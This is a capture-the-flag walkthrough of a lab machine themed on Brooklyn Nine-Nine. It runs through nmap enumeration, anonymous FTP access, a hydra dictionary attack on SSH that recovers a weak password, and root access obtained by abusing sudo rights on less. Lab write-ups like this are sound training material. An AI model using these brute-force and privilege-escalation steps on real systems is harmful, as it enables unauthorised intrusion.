

Target: 10.10.202.112

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.202.112 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-05 02:29 +08
Nmap scan report for 10.10.202.112
Host is up (0.26s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.163
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

checking index


viewing source of index



ftp anonymous login
```
$ ftp 10.10.202.112

ftp> ls

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.

ftp> get note_to_jake.txt

local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (976.5625 kB/s)

$ cat note_to_jake.txt 

From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

### Findings:Looking for attack vectors

Dictionary attack on ssh using username jake.


## Foothold:

hydra
```
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.202.112 ssh -T 4 -V   

[22][ssh] host: 10.10.202.112   login: jake   password: 987654321
```

Loot:

jake:987654321

```
$ ssh jake@10.10.202.112
```

```
jake@brookly_nine_nine:~$ id

uid=1000(jake) gid=1000(jake) groups=1000(jake)
```

```
jake@brookly_nine_nine:/home/holt$ cat user.txt

<redacted>
```


## Priv Escalations:


```
jake@brookly_nine_nine:~$ sudo -l

Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

```
jake@brookly_nine_nine:~$ sudo less /root/root.txt

<redacted>
```
